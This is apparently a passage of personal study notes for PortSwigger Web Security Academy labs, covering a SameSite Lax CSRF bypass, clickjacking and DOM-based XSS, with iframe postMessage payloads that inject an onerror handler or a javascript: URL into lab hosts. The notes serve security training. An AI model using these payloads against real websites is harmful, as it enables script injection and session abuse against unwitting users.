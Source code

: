 ### 9. SameSite Lax bypass via cookie refresh
```
Create CSRF PoC. Send it to victim once, wait 5-10 seconds and send it again.
```

### 10. CSRF Refresh Password isloggedin true  
![image](https://user-images.githubusercontent.com/58632878/225075710-01fd1c2f-97fe-4e86-af60-3f84b9616293.png)  
![image](https://user-images.githubusercontent.com/58632878/225067728-0d3ceddd-4f8a-4af9-b8e9-602ea43300f6.png)  


# Clickjacking  
## Approach  
Really?


# DOM-based vulnerabilities
## Approach  
My personally hated topic. Quite hard to understand, how to construct the payload. The best tip I've got for this is to use DOM-Invader Extension, it can detect this vulnerability and even, in some cases, construct right payload, but don't rely on it too much. For example, on the screenshot below you can see, that DOM-Invader got the right place for injection for ```DOM XSS using web messages and JSON.parse``` lab, so all you need is to write it in iframe tag and get alert() function.  
![image](https://user-images.githubusercontent.com/58632878/224688658-b043e05a-791b-4a44-9460-4323e1ed598b.png)  
![image](https://user-images.githubusercontent.com/58632878/224688884-e0d8f9c7-d10a-4534-97c5-ccb32fc3a461.png)  


## Labs  
### 1. DOM XSS using web messages
>Notice that the home page contains an addEventListener() call that listens for a web message
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
>When the iframe loads, the postMessage() method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the div with the ID ads. However, in this case it inserts our img tag, which contains an invalid src attribute. This throws an error, which causes the onerror event handler to execute our payload. 


### 2. DOM XSS using web messages and a JavaScript URL
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```
